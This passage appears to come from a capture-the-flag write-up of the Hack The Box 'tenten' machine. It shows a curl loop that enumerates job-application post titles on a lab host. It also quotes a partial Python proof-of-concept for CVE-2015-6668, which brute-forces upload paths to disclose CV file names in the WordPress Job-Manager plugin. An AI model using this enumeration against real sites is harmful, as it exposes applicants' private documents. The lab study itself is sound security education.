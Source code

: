 On a clean reset of the box, it looks like there are 13 rows in the database:

```

┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
└──╼ $for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
1: Job Application: Hello world!
2: Job Application: Sample Page
3: Job Application: Auto Draft
4: Job Application
5: Job Application: Jobs Listing
6: Job Application: Job Application
7: Job Application: Register
8: Job Application: Pen Tester
9: Job Application:
10: Job Application: Application
11: Job Application: cube
12: Job Application: Application
13: Job Application: HackerAccessGranted
14: Job Application
15: Job Application
16: Job Application
17: Job Application
18: Job Application
19: Job Application
20: Job Application
21: Job Application
22: Job Application
23: Job Application
24: Job Application
25: Job Application

```

I’ll compare this to the actual database in [Beyond Root](#beyond-root).

#### Find Files

The next step in the exploit it to find the file associated with the upload. The idea is that now that I know the name of the post (which for this plugin is the name of the applicant), I can find the associated resume uploads. The exploit site has a script to brute force looking for file paths that are based on upload date.

```

import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2013,2018):  
    for i in range(1,13):
        for extension in {'doc','pdf','docx'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
```
